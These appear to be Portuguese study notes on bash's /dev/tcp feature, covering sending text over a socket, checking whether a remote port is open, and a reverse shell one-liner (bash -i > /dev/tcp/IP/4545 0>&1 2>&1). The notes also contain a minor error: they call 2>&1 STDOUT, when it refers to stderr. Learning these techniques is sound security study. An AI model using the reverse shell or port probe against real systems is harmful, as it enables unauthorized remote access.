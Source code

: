 /dev/tcp
É uma forma de abrir um socket e enviar mensagem

Enviando uma mensagem
Outro computador deve estar com a porta 4545 aberta e escutando e na nossa maquina colocamos:
	echo "TESTE" > /dev/tcp/192.168.124.199/4545
Na maquina com a porta 4545 aberta será impresso a palavra TESTE.

Uma forma de saber se uma porta está aberta e conectando:
	>/dev/tcp/172.168.1.12/4545
Caso se conecte não é mostrado nenhuma mensagem no terminal, caso não conecte é mostrado uma mensagem de erro no terminal
	>/dev/tcp/www.businesscorp.com.br/21 && echo "Porta Aberta"     -- nesse caso se não retornar mensagem de erro é impresso a mensagem de porta aberta.

Enviado a shell pelo /dev/tcp
	bash -i > /dev/tcp/192.168.124.199/4545 0>&1 2>&1   -- O "0>&1" é referente ao STDIN(entrada) e o "2>&1" é pelo STDOUT(erro) o numero "1" nos dois casos é a saida do terminal, é escrito dessa forma pois é enviado esses dados para o outro terminal.
